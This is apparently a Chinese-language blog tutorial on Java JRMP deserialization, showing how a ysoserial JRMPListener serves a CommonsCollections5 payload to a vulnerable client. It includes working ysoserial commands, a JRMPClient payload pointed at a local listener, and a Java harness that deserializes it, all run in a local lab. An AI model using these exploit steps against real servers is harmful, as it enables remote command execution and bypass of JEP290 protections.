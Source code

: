 # 前言

JRMP是java的一种协议，RMI的通信过程就是通过JRMP协议进行的，JRMP是通过TCP继进行传输的，最近在一些地方看到了关于JRMP的反序列化，包括在RMI反序列化中的利用，对JEP290的绕过，所以打算来跟一跟这个链子

wiki的描述

Java远程方法协议（英语：Java Remote Method Protocol，JRMP）是特定于Java技术的、用于查找和引用远程对象的协议。这是运行在Java远程方法调用（RMI）之下、TCP/IP之上的线路层协议（英语：Wire protocol）。

这并不是一条直接命令执行的链子，而是一条通过打开JRMP监听到达和RMI交互的目的，与RMI的反序列化有一定程度的相似之处，但是这绕过JEP290有一定的用处

# 利用JRMP服务端打客户端

这种方式是将ysoserial中的`exploit/JRMPListener`作为服务端，也就是攻击方进行监听，然后通过发送`payloads/JRMPClient`向我们的`exploit/JRMPListener`进行连接，连接后会返回`exploit/JRMPListener`的gadget对象，然后进行反序列化

攻击流程如下：

- 攻击方在自己的服务器使用`exploit/JRMPListener`开启一个rmi监听
- 往存在漏洞的服务器发送`payloads/JRMPClient`，payload中已经设置了攻击者服务器ip及JRMPListener监听的端口（即启动JRMP服务端的IP和对应端口），漏洞服务器反序列化该payload后，会去连接攻击者开启的rmi监听，在通信过程中，攻击者服务器会发送一个可执行命令的payload（假如存在漏洞的服务器中有使用`org.apacje.commons.collections`包，则可以发送`CommonsCollections`系列的payload），从而达到命令执行的结果。

启动监听

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections5 "calc"
```

生成Client序列化数据

```
java -jar ysoserial.jar JRMPClient "127.0.0.1:1099" > test.bin
```

测试代码（反序列化payload并连接攻击者开启的RMI监听）

```
package ysoserial.JRMP;

import java.io.FileInputStream;
import java.io.ObjectInputStream;

public class test {
    public static void main(String[] args) throws Exception {
        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("D:\\工具\\ysoserial-master\\src\\main\\java\\ysoserial\\JRMP\\test.bin"));
        Object o = fos.readObject();
        System.out.println(o);
    }
}
```

![image-20220415133317491](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220415133317491.png)
